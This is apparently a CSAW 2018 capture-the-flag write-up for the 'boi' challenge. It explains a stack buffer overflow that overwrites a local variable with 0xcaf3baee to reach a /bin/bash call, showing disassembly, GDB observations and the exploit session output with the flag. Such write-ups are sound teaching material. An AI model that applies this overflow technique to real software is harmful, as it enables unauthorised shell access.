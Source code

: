 ```
bigboy

Only big boi pwners will get this one!

nc pwn.chal.csaw.io 9000
```

We are given a binary file that receives a user input, and after that, a date is printed and the binary
ends its execution.

```
./boi
Are you a big boiiiii??
asdf
Sat Sep 15 23:55:27 CST 2018
```

It doesn't matter how long is the user input, the result is the same.

# Analysis #
We fire up radare2 to take a peek at the binary, we immediately find some interesting stuff in the
main function as shown below.

![value](imgs/hardcoded.png)

At address 0x004006a8 we compare if the value stored in **local__1ch** is not equal to 0xcaf3baee,
if they are different we jump to 0x004006bb that calls /bin/date.

```asm
0x004006bb      bf86074000     mov edi, str.bin_date                ; 0x400786 ; "/bin/date"
0x004006c0      e861ffffff     call sym.run_cmd
```

Otherwise we continue execution at address 0x004006af, this address calls /bin/bash (probably we
are looking for this condition)

```asm
0x004006af      bf7c074000     mov edi, str.bin_bash                ; 0x40077c ; "/bin/bash"
0x004006b4      e86dffffff     call sym.run_cmd
```

However, **local__1ch** was assigned the value of 0xdeadbeef a few instructions above ...

```asm
0x0040067e      c745e4efbead.  mov dword [local_1ch], 0xdeadbeef
```

... but if we look carefully our controlled input **buf** is saved at offset rbp-0x30 and we are
writing 0x18 bytes to the stack, that is enough to write from rbp-0x30 to rbp-0x1c (offset of local_1ch).

Lets debug our binary with GDB and check what happens when we send 24 A's as our input ...

![write](imgs/overwrite.png)

After sending 24 A's we can see that we were able to write an arbitrary value at offset rbp-0x1c,
now we'll add the value 0xcaf3baee on the last 4 bytes and try our exploit ...

```
python exploit.py
[+] Opening connection to pwn.chal.csaw.io on port 9000: Done
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAîº _    ___        ____   ___  _ _ _ _
| |__|_ _|__ _  | __ ) / _ \(_|_|_|_)
| '_ \| |/ _` | |  _ \| | | | | | | |
| |_) | | (_| | | |_) | |_| | | | | |
|_.__/___\__, | |____/ \___/|_|_|_|_|
         |___/
***************************************
Are you a big boiiiii??
$ ls
ls
art.txt  boi  flag.txt    run.sh
$ cat flag.txt
cat flag.txt
flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}
```
